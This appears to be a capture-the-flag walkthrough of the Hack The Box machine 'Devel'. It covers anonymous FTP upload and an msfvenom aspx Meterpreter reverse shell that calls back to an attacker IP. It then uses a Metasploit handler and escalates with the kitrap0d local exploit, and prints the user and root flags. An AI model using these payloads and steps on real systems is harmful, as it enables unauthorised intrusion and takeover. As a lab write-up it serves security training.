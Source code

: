 # Devel

## IP

> 10.10.10.5
## nmap Scan
```
nmap -T4 -A 10.10.10.5 -Pn
```

![[Pasted image 20210729232622.png]]

## Open Ports
       
>
21/tcp open  ftp     Microsoft ftpd

FTP
Anonymous FTP login allowed (FTP code 230)

>80/tcp open  http    Microsoft IIS httpd 7.5

HTTP

## FTP 
You can access the FTP using anonymous access

```
ftp 10.10.10.5
user: anonymous
no password
```

We can see that here they are storing the website assets

## HTTP
http://10.10.10.5/

![[Pasted image 20210729233357.png]]

I first performed a dirbuster using the small wordlist and the extensions "txt,asm,asmx,asp,aspx,zip,rar,bar" 

> Nothing Useful

## HTTP & FTP
FTP is being used to store the assets for the http page

So we can create a payload in order to try and create a backdoor

We can find a cheat sheet here on how to do it https://netsec.ws/?p=331

We are looking to create a aspx payload because we are attacking windows

Following the guide we end up with this command

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.185 LPORT=4444 -f aspx > ex.aspx
```

We created the payload

Now we need to create the listener

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.16.185
run
```

Now we have the listener

We can now connect into FTP again 

```
ftp 10.10.10.5
user: anonymous
no password
```

And put the file

```
put ex.aspx
```

Now if we access http://10.10.10.5/ex.aspx we get access in our listener!!

## Post Exploitation 
```getuid```

> Server username: IIS APPPOOL\Web

We are not root

```sysinfo```

>Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 0
Meterpreter     : x86/windows

Compatibility between Meterpreter and Architecture = Good

```getsystem```

> Did not work

## Getting root access

First Background the session

```background```

Then look for the exploit

```
search suggester
use post/multi/recon/local_exploit_suggester
set session 1 (or whichever session you are using)
run
```

Now we try recommended payloads until it works

This time it was "exploit/windows/local/ms10_015_kitrap0d"

```
use exploit/windows/local/ms10_015_kitrap0d
set session 1 (or whichever session you are using)
run
```

After the first run it wont work, but we can now change more options

```
set lhost tun0
run
```

```getuid```
> Server username: NT AUTHORITY\SYSTEM

We are root!

#### Finding user.txt

```
cd c:\
cd Users
cd babis
cd Desktop
type user.txt.txt
```

>
9ecdd6a3aedf24b41562fea70f4cb3e8

#### Finding root.txt

```
cd c:\
cd Users
cd Administrator
cd Desktop
type root.txt
```

>
e621a0b5041708797c4fc4728bc72b4b
